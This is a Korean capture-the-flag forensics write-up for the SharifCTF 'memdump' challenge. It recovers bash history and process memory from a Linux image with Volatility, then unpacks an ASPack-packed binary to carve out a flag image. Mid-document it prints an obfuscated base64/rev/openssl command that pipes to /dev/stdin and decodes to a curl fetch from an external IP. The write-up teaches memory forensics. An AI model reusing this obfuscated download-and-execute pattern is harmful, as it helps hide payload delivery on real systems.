 =====================================================================
[sharif] memdump
=====================================================================

메모리 덤프 파일 정보 확인
=====================================================================

메모리 덤프 s파일의 정보를 확인합니다.

리눅스 메모리 덤프의 경우 volatility의 imageinfo로 확인을 하게 되면 시간도 오래걸리고, 만약 profile에 해당 이미자가 없을 수 있기 때문에 다음 명령으로 확인을 합니다.

.. code-block:: console

    $ strings memdump2 | egrep '^Linux.*[0-9.]{3,}.*SMP'
 
    Linux version 3.16.0-30-generic (buildd@kissel) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #40~14.04.1-Ubuntu SMP Thu Jan 15 17:43:14 UTC 2015 (Ubuntu 3.16.0-30.40~14.04.1-generic 3.16.7-ckt3)

    Linux version 3.16.0-30-generic (buildd@kissel) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #40~14.04.1-Ubuntu SMP Thu Jan 15 17:43:14 UTC 2015 (Ubuntu 3.16.0-30.40~14.04.1-generic 3.16.7-ckt3)

|

프로세스 정보 확인
=====================================================================

위에서 나온 프로파일이 윈도우이므로, pslist로 프로세스 정보에 대해 확인합니다.

.. code-block:: console

    $ python vol.py linux_psaux --profile=LinuxUbuntu1404x64 -f memdump2
    
    Volatility Foundation Volatility Framework 2.5
    Pid    Uid    Gid    Arguments
    1      0      0      /sbin/init
    2      0      0      [kthreadd]
    3      0      0      [ksoftirqd/0]
    5      0      0      [kworker/0:0H]
    6      0      0      [kworker/u2:0]
    7      0      0      [rcu_sched]
    8      0      0      [rcuos/0]
    9      0      0      [rcu_bh]
    10     0      0      [rcuob/0]
    11     0      0      [migration/0]
    12     0      0      [watchdog/0]
    13     0      0      [khelper]
    14     0      0      [kdevtmpfs]
    15     0      0      [netns]
    16     0      0      [khungtaskd]
    17     0      0      [writeback]
    18     0      0      [ksmd]
    19     0      0      [crypto]
    20     0      0      [kintegrityd]
    21     0      0      [bioset]
    22     0      0      [kblockd]
    23     0      0      [ata_sff]
    24     0      0      [khubd]
    25     0      0      [md]
    26     0      0      [devfreq_wq]
    27     0      0      [kworker/u2:1]
    28     0      0      [kworker/0:1]
    29     0      0      [kswapd0]
    30     0      0      [fsnotify_mark]
    31     0      0      [ecryptfs-kthrea]
    43     0      0      [kthrotld]
    44     0      0      [acpi_thermal_pm]
    45     0      0      [scsi_eh_0]
    46     0      0      [scsi_tmf_0]
    47     0      0      [scsi_eh_1]
    48     0      0      [scsi_tmf_1]
    50     0      0      [ipv6_addrconf]
    70     0      0      [deferwq]
    71     0      0      [charger_manager]
    117    0      0      [kpsmoused]
    118    0      0      [kworker/0:2]
    119    0      0      [scsi_eh_2]
    120    0      0      [scsi_tmf_2]
    121    0      0      [kworker/0:1H]
    131    0      0      [jbd2/sda1-8]
    132    0      0      [ext4-rsv-conver]
    264    0      0      upstart-udev-bridge --daemon
    270    0      0      /lib/systemd/systemd-udevd --daemon
    391    0      0      upstart-file-bridge --daemon
    394    102    106    dbus-daemon --system --fork
    396    101    104    rsyslogd
    422    0      0      /lib/systemd/systemd-logind
    462    0      0      upstart-socket-bridge --daemon
    540    0      0      dhclient -1 -v -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases eth0
    680    0      0      /sbin/getty -8 38400 tty4
    683    0      0      /sbin/getty -8 38400 tty5
    690    0      0      /sbin/getty -8 38400 tty2
    691    0      0      /sbin/getty -8 38400 tty3
    693    0      0      /sbin/getty -8 38400 tty6
    710    0      0      acpid -c /etc/acpi/events -s /var/run/acpid.socket
    725    0      0      /usr/sbin/sshd -D
    773    0      0      atd
    774    0      0      cron
    900    0      0      [kauditd]
    1047   0      0      /sbin/getty -8 38400 tty1
    1093   0      0      sshd: user [priv]
    1135   1000   1000   sshd: user@pts/0
    1136   1000   1000   -bash  <-- suspicious process
    1166   0      0      [kworker/u2:2]

|

bash shell 확인
=====================================================================

실행한 bash 정보를 확인합니다. 뭔가 냄새가 나는 것들이 존재합니다.

.. code-block:: console

    $ python vol.py linux_bash --profile=LinuxUbuntu1404x64 -f memdump2

    Volatility Foundation Volatility Framework 2.5
    Pid      Name                 Command Time                   Command
    -------- -------------------- ------------------------------ -------
    1136 bash                 2016-02-03 11:31:37 UTC+0000   netstat -natp
    1136 bash                 2016-02-03 11:32:21 UTC+0000   history
    1136 bash                 2016-02-03 11:32:28 UTC+0000   startx
    1136 bash                 2016-02-03 11:32:35 UTC+0000   history
    1136 bash                 2016-02-03 11:32:55 UTC+0000   passwd
    1136 bash                 2016-02-03 11:33:31 UTC+0000   ifconfig
    1136 bash                 2016-02-03 11:33:37 UTC+0000   curl ctf.sharif.edu
    1136 bash                 2016-02-03 11:33:43 UTC+0000   curl ctf.sharif.edu | grep till
    1136 bash                 2016-02-03 11:33:49 UTC+0000   curl -s paste.debian.net/plain/343376 | cut -d "_not"
    1136 bash                 2016-02-03 11:34:11 UTC+0000   curl -s paste.debian.net/plain/343376 | tr -d "_not"
    1136 bash                 2016-02-03 11:34:51 UTC+0000   curl -s paste.debian.net/plain/343376 | base64 | rev
    1136 bash                 2016-02-03 11:34:58 UTC+0000   top
    1136 bash                 2016-02-03 11:35:04 UTC+0000   history
    1136 bash                 2016-02-03 11:35:09 UTC+0000   curl -s ctf.sharif.edu | grep till
    1136 bash                 2016-02-03 11:35:15 UTC+0000   curl -s ctf.sharif.edu | grep till | sed -e 's/20:00/30:00/g'
    1136 bash                 2016-02-03 11:35:22 UTC+0000   
    1136 bash                 2016-02-03 11:35:29 UTC+0000   echo blahblah
    1136 bash                 2016-02-03 11:35:35 UTC+0000   curl -I ctf.sharif.edu
    1136 bash                 2016-02-03 11:35:42 UTC+0000   curl -I ctf.sharif.edu | grep ETag | cut -d "\"" -f2
    1136 bash                 2016-02-03 11:35:48 UTC+0000   curl -s -I ctf.sharif.edu | grep ETag | cut -d "\"" -f2
    1136 bash                 2016-02-03 11:35:53 UTC+0000   curl ctftime.org
    1136 bash                 2016-02-03 11:36:05 UTC+0000   curl https://ctftime.org
    1136 bash                 2016-02-03 11:36:11 UTC+0000   curl https://ctftime.org/upcoming | grep -i SharifCTF
    1136 bash                 2016-02-03 11:36:17 UTC+0000   curl -s "https://ctftime.org/upcoming " | grep -i SharifCTF
    1136 bash                 2016-02-03 11:36:23 UTC+0000   curl -s "https://ctftime.org/upcoming " | grep -i flag
    1136 bash                 2016-02-03 11:36:35 UTC+0000   echo "woow :) :)"
    1136 bash                 2016-02-03 11:36:41 UTC+0000   watch curl -s "https://ctftime.org/Upcoming | grep -i flag"
    1136 bash                 2016-02-03 11:37:00 UTC+0000   history
    1136 bash                 2016-02-03 11:37:05 UTC+0000   ping google.com
    1136 bash                 2016-02-03 11:37:13 UTC+0000   ps aux
    1136 bash                 2016-02-03 11:37:19 UTC+0000   nslookup ctf.sharif.edu
    1136 bash                 2016-02-03 11:37:24 UTC+0000   ls -ah
    1136 bash                 2016-02-03 11:37:29 UTC+0000   ls -la
    1136 bash                 2016-02-03 11:37:33 UTC+0000   uptime
    1136 bash                 2016-02-03 11:37:40 UTC+0000   clear

실행을 통해 확인 작업에 들어갑니다.

.. code-block:: console

    $ curl -s paste.debian.net/plain/343376

    hi all, Where is flag? this is not flag, be sure!
    +++++++++++++++++++++++++++++++++++++++++++++++++
    +        su-CTF{this_is_not_flag_g0_away}       +
    +++++++++++++++++++++++++++++++++++++++++++++++++

어 이게 정답인가? 아니였습니다. 

.. code-block:: console

    $ curl -s paste.debian.net/plain/343376 | tr -d "_not"
    
    hi all, Where is flag? his is  flag, be sure!
    +++++++++++++++++++++++++++++++++++++++++++++++++
    +        su-CTF{hisisflagg0away}       +
    +++++++++++++++++++++++++++++++++++++++++++++++++

어 이게 정답인가? 아니였습니다. 이리로 오면 안되는 거 였습니다. 잘못된 접근 ㅎㅎ

|

덤프 파일 분석
=====================================================================

bash pid로 메모리 덤프를 떠서 확인을 해봐야겠습니다.

.. code-block:: console

    $ python vol.py linux_dump_map -p 1136 --profile=LinuxUbuntu1404x64 -f memdump2 -D output

    Volatility Foundation Volatility Framework 2.5
    Task       VM Start           VM End                         Length Path
    ---------- ------------------ ------------------ ------------------ ----
    1136 0x0000000000400000 0x00000000004ef000            0xef000 output/task.1136.0x400000.vma
    1136 0x00000000006ef000 0x00000000006f0000             0x1000 output/task.1136.0x6ef000.vma
    1136 0x00000000006f0000 0x00000000006f9000             0x9000 output/task.1136.0x6f0000.vma
    1136 0x00000000006f9000 0x00000000006ff000             0x6000 output/task.1136.0x6f9000.vma
    1136 0x000000000141c000 0x00000000015a8000           0x18c000 output/task.1136.0x141c000.vma
    1136 0x00007f6a8d701000 0x00007f6a8d70c000             0xb000 output/task.1136.0x7f6a8d701000.vma
    1136 0x00007f6a8d70c000 0x00007f6a8d90b000           0x1ff000 output/task.1136.0x7f6a8d70c000.vma
    1136 0x00007f6a8d90b000 0x00007f6a8d90c000             0x1000 output/task.1136.0x7f6a8d90b000.vma
    1136 0x00007f6a8d90c000 0x00007f6a8d90d000             0x1000 output/task.1136.0x7f6a8d90c000.vma
    1136 0x00007f6a8d90d000 0x00007f6a8d918000             0xb000 output/task.1136.0x7f6a8d90d000.vma
    1136 0x00007f6a8d918000 0x00007f6a8db17000           0x1ff000 output/task.1136.0x7f6a8d918000.vma
    1136 0x00007f6a8db17000 0x00007f6a8db18000             0x1000 output/task.1136.0x7f6a8db17000.vma
    1136 0x00007f6a8db18000 0x00007f6a8db19000             0x1000 output/task.1136.0x7f6a8db18000.vma
    1136 0x00007f6a8db19000 0x00007f6a8db30000            0x17000 output/task.1136.0x7f6a8db19000.vma
    1136 0x00007f6a8db30000 0x00007f6a8dd2f000           0x1ff000 output/task.1136.0x7f6a8db30000.vma
    1136 0x00007f6a8dd2f000 0x00007f6a8dd30000             0x1000 output/task.1136.0x7f6a8dd2f000.vma
    1136 0x00007f6a8dd30000 0x00007f6a8dd31000             0x1000 output/task.1136.0x7f6a8dd30000.vma
    1136 0x00007f6a8dd31000 0x00007f6a8dd33000             0x2000 output/task.1136.0x7f6a8dd31000.vma
    1136 0x00007f6a8dd33000 0x00007f6a8dd3c000             0x9000 output/task.1136.0x7f6a8dd33000.vma
    1136 0x00007f6a8dd3c000 0x00007f6a8df3b000           0x1ff000 output/task.1136.0x7f6a8dd3c000.vma
    1136 0x00007f6a8df3b000 0x00007f6a8df3c000             0x1000 output/task.1136.0x7f6a8df3b000.vma
    1136 0x00007f6a8df3c000 0x00007f6a8df3d000             0x1000 output/task.1136.0x7f6a8df3c000.vma
    1136 0x00007f6a8df3d000 0x00007f6a8e206000           0x2c9000 output/task.1136.0x7f6a8df3d000.vma
    1136 0x00007f6a8e206000 0x00007f6a8e3c1000           0x1bb000 output/task.1136.0x7f6a8e206000.vma
    1136 0x00007f6a8e3c1000 0x00007f6a8e5c1000           0x200000 output/task.1136.0x7f6a8e3c1000.vma
    1136 0x00007f6a8e5c1000 0x00007f6a8e5c5000             0x4000 output/task.1136.0x7f6a8e5c1000.vma
    1136 0x00007f6a8e5c5000 0x00007f6a8e5c7000             0x2000 output/task.1136.0x7f6a8e5c5000.vma
    1136 0x00007f6a8e5c7000 0x00007f6a8e5cc000             0x5000 output/task.1136.0x7f6a8e5c7000.vma
    1136 0x00007f6a8e5cc000 0x00007f6a8e5cf000             0x3000 output/task.1136.0x7f6a8e5cc000.vma
    1136 0x00007f6a8e5cf000 0x00007f6a8e7ce000           0x1ff000 output/task.1136.0x7f6a8e5cf000.vma
    1136 0x00007f6a8e7ce000 0x00007f6a8e7cf000             0x1000 output/task.1136.0x7f6a8e7ce000.vma
    1136 0x00007f6a8e7cf000 0x00007f6a8e7d0000             0x1000 output/task.1136.0x7f6a8e7cf000.vma
    1136 0x00007f6a8e7d0000 0x00007f6a8e7f5000            0x25000 output/task.1136.0x7f6a8e7d0000.vma
    1136 0x00007f6a8e7f5000 0x00007f6a8e9f4000           0x1ff000 output/task.1136.0x7f6a8e7f5000.vma
    1136 0x00007f6a8e9f4000 0x00007f6a8e9f8000             0x4000 output/task.1136.0x7f6a8e9f4000.vma
    1136 0x00007f6a8e9f8000 0x00007f6a8e9f9000             0x1000 output/task.1136.0x7f6a8e9f8000.vma
    1136 0x00007f6a8e9f9000 0x00007f6a8ea1c000            0x23000 output/task.1136.0x7f6a8e9f9000.vma
    1136 0x00007f6a8ec0a000 0x00007f6a8ec11000             0x7000 output/task.1136.0x7f6a8ec0a000.vma
    1136 0x00007f6a8ec11000 0x00007f6a8ec14000             0x3000 output/task.1136.0x7f6a8ec11000.vma
    1136 0x00007f6a8ec19000 0x00007f6a8ec1b000             0x2000 output/task.1136.0x7f6a8ec19000.vma
    1136 0x00007f6a8ec1b000 0x00007f6a8ec1c000             0x1000 output/task.1136.0x7f6a8ec1b000.vma
    1136 0x00007f6a8ec1c000 0x00007f6a8ec1d000             0x1000 output/task.1136.0x7f6a8ec1c000.vma
    1136 0x00007f6a8ec1d000 0x00007f6a8ec1e000             0x1000 output/task.1136.0x7f6a8ec1d000.vma
    1136 0x00007fff373e1000 0x00007fff37403000            0x22000 output/task.1136.0x7fff373e1000.vma
    1136 0x00007fff37407000 0x00007fff37409000             0x2000 output/task.1136.0x7fff37407000.vma
    1136 0x00007fff37409000 0x00007fff3740b000             0x2000 output/task.1136.0x7fff37409000.vma


grep 명령을 통해 string을 가진 파일을 검색해보았는데 다행히(?) 1개 파일이 매칭 되었습니다.

.. code-block:: console

    $ grep -i 'netstat -natp' output/*
    
    Binary file output/task.1136.0x141c000.vma matches

strings 로 해당 파일을 검색해보니 너무 너무 많이 출력됩니다. ㅠㅠ
솔직히 여기서부터 잘못된 접근인가라는 의심이 시작되었습니다. 다행히 more에서 8페이지 쯤 에 수상한 놈이 보였습니다.

.. code-block:: console

    $ strings output/task.1136.0x141c000.vma |more
     
    e.org/Upcoming | grep -i flag"
    jL1IzLqt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56'
    g' -e 's/|/ /g' | uniq)
    p##*/}
                     printf '%s\n' ${tmp%.mod}
                 }
             done
             }
            ))
    t|m[eo]d|M[EO]D|s[3t]m|S[3T]M|it|IT|xm|XM|iso|ISO)|+([0-9]).@(vdr|VDR))?(.part)'
    ull ))
        "s|.*[[:space:]]\(link/\)\{0,1\}ether[[:space:]]\{1,\}\($re\)[[:space:]]*$|\2|p"
            ))


/tmp/.KvCf56 이라는 파일에 무언가 저장을 하는구나 싶어 grep으로 해당 부분을 잡아보았습니다.


.. code-block:: console

    $ strings output/task.1136.0x141c000.vma |grep '/tmp/.KvCf56'
    
    jL1IzLqt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56'
    Lqt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56'
    qt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56'
    qt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56'
    Lqt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56
    echo =owY1JHbg0ycggGd0BnOv8SN04SM4MjL1MjL1IzLqt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56
    t0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56'

바로 해당 명령 실행

.. code-block:: console

    $ echo =owY1JHbg0ycggGd0BnOv8SN04SM4MjL1MjL1IzLqt0TwF3b | rev | openssl enc -a -d | rev 
    
    curl -s http://54.183.53.52/jKOpqo

저 url에서 PE파일 하나를 떨구네요. 

실행을 시켜보면 그냥 묵비권만 행사함을 알 수 있습니다. 근데 뭔가 알지도 모른다고 하네요.

.. image:: ../_images/forensic02.png
    :align: center


IDA를 통해 Segment를 확인해보면 aspack 으로 패킹 되어 있음을 확인할 수 있습니다.


.. image:: ../_images/forensic03.png
    :align: center

packing이 되어 있기 때문에 아무리 IDA로 정적 분석을 해도 별다른 스트링이 나오지 않음을 알수 있습니다. 왜냐하면 실행 중에 unpack이 되기 때문에 unpack 이후 OEP 에 들어 갓을 때 내용을 확인해야 정상적으로 뜹니다.

그럼 먼저 aspack을 unpack을 해보죠. 프로그램 시작 지점 (start) 부터 시작을 합니다. 근처에 pusha 가 있을겁니다. 언팩을 하기 전의 레지스터 값을 저장하고 언팩이 끝난 다음에 popa를 통해 복구 하기 위함입니다.

.. image:: ../_images/forensic04.png
    :align: center


따라서 우리는 어셈블리를 쭉 내리면서 popa 만 찾으면 되고, popa 에다가 bp를 걸고 실행 합니다.

.. image:: ../_images/forensic05.png
    :align: center

이후 몇번 움직이면 EIP가 0x00401040 쪽으로 가게 되는데 이 부분부터가 OEP 입니다.

이때부터 strings나 기타 등등을 살펴 보면 다음과 같이 잘 보임을 알 수 있습니다.

.. image:: ../_images/forensic06.png
    :align: center

.. image:: ../_images/forensic07.png
    :align: center

여기서 주목해야 할 세그먼트는 jKOpqo.exe 세그먼트 입니다. 이름이 같은 세그먼트가 2개가 있는데 첫 번째 내용에 MZ 로 시작하여 This program cannot be 어쩌구 있는걸 보니 바이너리 형태로 프로그램이 들어가 있고 

두번째 세그먼트를 보면 FLAG ... IMG ... PNG 어쩌구 되어 있습니다. 음... 두번째 놈을 덤프 떠봅니다 'ㅅ' 세그먼트 헤더에 시작위치와 크기가 정해져 있으니 해당 바이트수 만큼 땝니다.

.. image:: ../_images/forensic08.png
    :align: center

보면 PNG 해더가 시작하기 때문에 PNG 해더 전을 다 지웁니다.

.. image:: ../_images/forensic09.png
    :align: center

뒷 부분도 마찬가지로 PNG 의 끝을 가리키는 IEND + 4 바이트 까지 남기고 다 지웁니다.

.. image:: ../_images/forensic10.png
    :align: center

요놈을

.. image:: ../_images/forensic11.png
    :align: center

그러면 flag가 포함된 이미지가 출력됩니다.